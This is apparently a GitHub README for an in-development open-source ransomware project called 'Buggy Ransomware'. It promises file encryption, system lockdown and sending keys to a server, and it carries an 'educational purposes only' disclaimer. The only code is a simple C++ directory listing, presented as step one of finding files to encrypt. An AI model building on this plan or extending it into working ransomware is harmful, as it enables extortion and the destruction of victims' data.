 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logor.png" alt="logo">

# Buggy Ransomware

Buggy Ransomware is open source  Crypto-Locker. Buggy Ransomware is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.


## Step 1

Getting all files from all drive to encrypting them.

Here is basic program get all list directory & folder.

```
#include <iostream>
#include <stdio.h>
#include <string>
#include <dirent.h>
#include <fstream>

using namespace std;

fstream data_file("data.txt", ios::out);

int main(void)
{

	struct dirent *de;  // Pointer for directory entr
						// opendir() returns a pointer of DIR type. 
	DIR *dr = opendir("d:\\");

	if (dr == NULL)  // opendir returns NULL if couldn't open directory
	{
		printf("Could not open current directory");
		return 0;
	}

	// for readdir()
	while ((de = readdir(dr)) != NULL) {
		//	printf("%s\n", de->d_name);
		data_file << de->d_name << "\n";
	}
	data_file.close();
	closedir(dr);

	data_file.open("data.txt", ios::in);
	string line;
	while (data_file.good()) {
		getline(data_file, line);
		cout << line << endl;
	}

	system("pause");
	return 0;
}
```

# Currently in Development....Happy Hacking:)
